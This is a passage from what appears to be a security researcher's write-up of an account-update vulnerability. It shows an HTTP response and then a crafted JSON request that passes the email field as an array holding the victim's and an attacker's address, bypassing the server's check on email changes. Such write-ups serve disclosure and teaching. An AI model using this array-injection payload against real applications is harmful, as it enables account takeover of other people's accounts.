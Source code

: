 The above request demonstrates that the application allows users to update their details, including email. However, the user interface disables the edit email field.

### Response

```http
HTTP/1.1 200 OK 
Access-Control-Allow-Origin: * 
Content-Type: application/json; charset=utf-8 
Set-Cookie: blah...blah...blah...; Path=/; HttpOnly 
X-Frame-Options: SAMEORIGIN 
X-Content-Type-Options: nosniff 
X-XSS-Protection: 1; mode=block 
Referrer-Policy: strict-origin-when-cross-origin 
Connection: close 
Strict-Transport-Security: max-age=31536000; includeSubDomains

{
  "Success": true,
  "Message": "User details Updated"
}
```

The server responds with a 200 OK status code and a success message indicating that the user's details have been successfully updated.

## Bypassing the Security Measures

Changing the existing email value in the request results in an `Invalid Request Data` error response. However, this protection can be bypassed by passing the email as an array.

```json
{
  "user_Id": "2abaac0a-4af8-4101-a763-9d0229cafb12",
  "email": [
    "naveenj@thevillagehacker.com",
    "attacker@thevillagehacker.com"
  ],
  "Mobile": "9874563217",
  "role": "Analyst",
  "isActive": true
}
```

After sending the above request, the server responds with a "200 OK" status code and a success message, indicating that the user details have been updated.

## GET /user_detail

To retrieve the current user's details, a GET request to `/user_detail` is made.

### Request
